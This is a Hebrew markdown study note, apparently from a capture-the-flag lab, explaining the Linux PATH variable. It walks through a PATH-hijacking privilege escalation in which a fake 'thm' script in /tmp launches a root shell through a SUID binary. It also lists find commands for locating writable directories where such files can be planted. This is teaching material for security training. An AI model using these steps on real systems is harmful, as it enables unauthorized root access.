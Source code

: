 # משתנה PATH ופקודות שימושיות

## הסבר כללי

המשתנה **PATH** במערכת לינוקס מגדיר אילו תיקיות ייסרקו כאשר מריצים פקודה בלי לציין את הנתיב המלא שלה. כלומר, אם קיימת תוכנה או סקריפט בשם מסוים באחת התיקיות המופיעות ב-PATH – המערכת תריץ אותה.

### דוגמה:

אם נוסיף את התיקייה `/tmp` ל-PATH וניצור שם קובץ בשם `bash`, נוכל להריץ אותו כמו כל פקודה רגילה.

```bash
PATH=/tmp:$PATH
```

הפקודה הזו מוסיפה את הנתיב `/tmp` לתחילת משתנה PATH (כך שהמערכת תחפש קודם ב-/tmp).

---

## דוגמה מעשית – ניצול PATH להרצת קובץ בהרשאות גבוהות

בתרחיש הבא, היה קובץ בינארי עם הרשאות **SUID** (שומר על הרשאות המשתמש שיצר אותו – במקרה הזה root), והוא הריץ קובץ בשם `thm` בלי לציין נתיב מלא.

1. הוספנו את הנתיב `/tmp` ל-PATH:

   ```bash
   PATH=/tmp:$PATH
   ```

2. יצרנו שם קובץ בשם `thm`:

   ```bash
   echo "/bin/bash" > /tmp/thm
   chmod 777 /tmp/thm
   ```

3. כשהבינארי SUID קרא להריץ את `thm` – הוא מצא את הקובץ שיצרנו ב-`/tmp` והריץ אותו בהרשאות root.

4. קיבלנו shell של root.

---

## מציאת תיקיות ניתנות לכתיבה (Writable Directories)

כדי לבדוק אילו תיקיות במערכת ניתנות לכתיבה על-ידי המשתמש הנוכחי:

```bash
find / -writable 2>/dev/null
```

כדי לסנן תוצאות ולראות רק את הנתיבים הראשיים (בלי `/proc` ובלגן):

```bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

פקודות אלה חשובות מאוד לזיהוי מקומות שבהם ניתן להכניס קובץ זדוני או סקריפט שיכול להתבצע בהרשאות גבוהות.

---

## טיפ

אם תרצה להוסיף נתיב אחר זמנית למשתנה PATH, פשוט השתמש בפקודה הבאה:

```bash
PATH=/your/directory:$PATH
```

לדוגמה:

```bash
PATH=/opt/custom/bin:$PATH
```

ככה תוכל להריץ כל קובץ מתוך `/opt/custom/bin` כאילו הוא פקודה רגילה במערכת.
